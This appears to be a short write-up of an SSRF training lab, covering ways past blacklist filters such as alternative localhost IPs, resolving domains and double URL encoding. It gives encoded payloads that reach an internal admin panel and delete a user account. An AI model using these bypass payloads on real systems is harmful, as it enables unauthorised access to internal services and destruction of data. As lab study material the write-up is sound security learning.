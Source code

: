 ```yaml
---
tags: ["blacklist", "bypass"]
---
```


## SSRF with blacklist-based input filters

Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can often circumvent the filter using various techniques:

- Using an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Registering your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscating blocked strings using URL encoding or case variation.

## Challenge

--> In this lab we have to bypass a basic SSRF protection by some url encoding or using some localhost alternatives.

So i bypassed the stackApi request with this request.

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

![](Attachments/Pastedimage20220220095657.png)

And after that same process as previous challenges!

--> I used this payload and deleted the carlos's account :

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65%25%32%66%25%36%34%25%36%35%25%36%63%25%36%35%25%37%34%25%36%35%25%33%66%25%37%35%25%37%33%25%36%35%25%37%32%25%36%65%25%36%31%25%36%64%25%36%35%25%33%64%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33
```

And we solved the lab!
